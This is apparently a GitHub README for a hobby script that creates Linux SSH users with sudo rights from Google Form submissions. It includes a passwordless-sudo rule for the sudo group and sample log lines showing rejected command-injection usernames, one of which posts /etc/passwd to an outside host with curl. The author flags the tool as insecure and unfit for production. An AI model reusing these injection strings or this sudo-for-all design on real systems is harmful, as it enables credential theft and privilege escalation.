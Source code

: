 # Gdocs User Manager
This script manages ssh user and sudo access via... GOOGLE DOCS!

The way this works is simple:

1. A user logs into their work gmail account.
2. Once logged in, they can see a Google Form, which allows them to input the following three things for themselves:
  * full name
  * ssh username
  * ssh public key
3. A service runs in the backend of a linux host that scans the form. If it sees valid inputs for a user, it adds the system user.
4. An administer can also edit the spreadsheet and toggle some additional "hidden flags" that do things like purge a user from the system.

This is just a proof-of-concept and has security issues. Please don't use it for anything other than for fun.

For production you should use ldap + kerberos. That's the industry standard for managing ssh access.

## Why in the world...
This project was the result of brainstorming ideas for solving the following problems:

1. Allow an authenticated user to self-manage their ssh-keys
2. Allow an engineer with NO shell/linux experience to administer those users
3. Easily control access to those engineers
4. Be near real-time (less than 5 minutes from update to rollout)
5. Zero time from engineers spent rolling out keys

Google Forms/Sheets is actually a good choice for this project. Everyone knows how it works. It has incredible uptime and uses secure endpoints. It also has a well-documented API and allows for a staggering 10 million requests a day _for free_. That means you can have almost 7000 hosts update every minute using a free api key!

The Form allowed a simple way for everyone in the organization to update (read: self-service) their own API key. It forced authentication and was about as easy to use as it gets.

The backend to Google Forms is actually just a spreadsheet that's easy to read and parse. Write access to the spreadsheet can be "shared" with someone else at the company and they can manage it without needing any linux experience.

## Requirements
You'll need the following things:
1. The script in this repo
2. The install script.
3. A google API user w/ credentials

## Let's get started
### Create the Google Form
You'll need to create a form that has the following text boxes. These are case sensitive so please make sure they match exactly. Or you can change the lines in the script to be your custom field.

* ```SSH username```
* ```Username```
* ```SSH Public Key```

On the document, make sure you check only the following two boxes:
* Require <ORGANIZATION> login to view this form
* Automatically collect respondent's <ORGANIZATION username
* Only allow one response per person (requires login)
* Allow responders to edit responses after submitting

Name your document and save the name, you'll use it later on when setting environment variables.

### Create a Google API key
While logged into your organizational email, you'll need to create an API key and then activate google drive API
1. Log into the gmail account that you want to use with this service
2. Go to the Google Developer's Console: https://code.google.com/apis/console
3. Click on "Credentials" under "APIs & auth"
4. Click "Create new Client ID"

That will download your credentials file, which has the necessary information to make API calls out to Google. Download that file and keep it safe.

After that you'll need to authorize the google drive API
1. Click on "APIs" under "APIs & auth"
2. Search for "Drive API" and click on it
3. Click "activate"

### Share the Form backend with your API email
This step is important or else you won't be able to see any documents when you make API calls.

Find the Google spreadsheet that's created automatically by your Form. The title of this document is what you'll set the environment variable ```DOCUMENT_TITLE``` to on your system.

While you have the document open, share it with the email address that's provided in your credentials file. Again, this step is important! Or else you'll look for documents with the API and won't find any!

### Install the packages
If you're running ubuntu you can simply execute the install script:
```bash
$ ./install_on_ubuntu
...
```

### Set your sudoers file to allow sudo without password
Create a new file called ```/etc/sudoers.d/usermanager and add the following line:
```
%sudo ALL=NOPASSWD: ALL
```

This will allow users to who part of the "sudo" group to sudo without passwords. This isn't strictly necessary but the script automatically adds users to this group.

### Set your environment variables
This script uses the environment variable ```CREDENTIALS_FILE```. This variable must be a full-path to your credentials file that you got back from Google.

The second variable you'll need to set is ```DOCUMENT_TITLE```. This is the the name of the spreadsheet that serves as the "backend" to your Google form. For example ```SSH Access Request```.

## Phew. All set up.
Take a deep breath and hold on to you butts. The script should execute without any problems. It will add users if they are specified in the document.

```
[WARNING] Adding stephen to system
[WARNING] Adding Alice to system
[WARNING] Adding Frank to system
```

If somebody used a non-safe username, then you'll see errors like this:
```
[WARNING] Invalid user "; touch /tmp/pwned". Username must contain letters only!
[WARNING] Invalid user "; curl -XPOST http://mydomain.com -d@/etc/passwd". Username must contain letters only!
```

# Last words and warnings
I want to reiterate again that this was just a fun experiment and not fit for production. I do think there's value to using forms such as this and the API to scrape and do things with data, but not for ssh user access.

There are a few security issues:
1. Almost without exception should you never shell-out with user-supplied data.
2. There's no granularity. This grants sudo access to everyone who can submit a form
3. I did my best to sanitize the user inputs, but I don't trust it. Does anyone know of a better python library for this?
